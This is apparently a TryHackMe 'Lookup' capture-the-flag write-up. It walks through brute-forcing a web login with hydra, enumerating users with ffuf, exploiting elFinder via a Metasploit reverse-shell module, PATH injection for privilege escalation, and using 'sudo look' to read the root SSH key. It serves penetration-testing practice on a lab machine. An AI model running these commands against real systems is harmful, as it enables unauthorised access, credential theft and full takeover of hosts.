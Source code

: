 TryHackMe - Lookup -easy

1. Reconnaissance
I started with standard scanning:
sudo nmap -sC -sV -oN lookup.thm
Open ports: 22 (SSH), 80 (HTTP).
I opened the website — there was a login form. I first tried admin:admin. The login worked, but the password was incorrect, which meant the username exists.
I immediately ran Hydra to brute-force the password:
hydra -l admin -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
The result was empty.
Then I decided to check other users using ffuf:
ffuf -u http://xxxx/login.php -d "username=FUZZ&password=test" -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -mc 200
Found a second user — jose.

2. Gaining Access
Brute-forcing the password for jose:
hydra -l jose -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
Password found: jose : password123.
After logging in, the system suggested adding a new host:
echo "xxxx files.lookup.thm" | sudo tee -a /etc/hosts
Went to http://files.lookup.thm and saw the elFinder file manager. Checked its version and found an exploit using searchsploit elfinder. In msfconsole, I used the module:
msfconsole
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS xxxx
set TARGETURI /elfinder/php/connector.minimal.php
set payload php/meterpreter/reverse_tcp
set LHOST tun0
run
Gained access as www-data.

3. Privilege Escalation — Switching to think
Ran linpeas.sh:
./linpeas.sh
It showed the binary pwm running as root, which calls id and saves the output to ~/.passwords.
I tried a PATH injection:
echo "id_think" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
After running the binary, I found the password for user think in ~/.passwords. Logged in:
su think
This step was a bit tricky, but it helped me understand how PATH injection can reveal passwords.

4. Privilege Escalation — Root
Checked sudo privileges:
sudo -l
It turned out that think can run the binary look as root. On GTFOBins, I found a way to use it to read files:
sudo look '' /root/.ssh/id_rsa
Copied the root key, saved it:
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@xxxx
Gained root access.

5. Additional Attempts
I tried CVE-2021-3560 (mentioned in linpeas report), but it didn’t work. The main working path was through look and the root private key.
6. New Knowledge and Commands
ffuf has special user lists.
For brute-force, it’s important to specify the exact file, e.g., login.php.
Practical experience with PATH injection via export PATH=/tmp:$PATH.
Experience with sudo -l and GTFOBins.
Using private keys to gain root access via SSH.

Conclusion
Managed to complete the machine:
Reconnaissance: nmap, ffuf, hydra
Exploitation: elFinder via msfconsole
Privilege Escalation: PATH injection → user think
Privileges: sudo look → root via SSH key
Although there were challenges (especially understanding PATH injection and password brute-forcing), the experience was very useful.
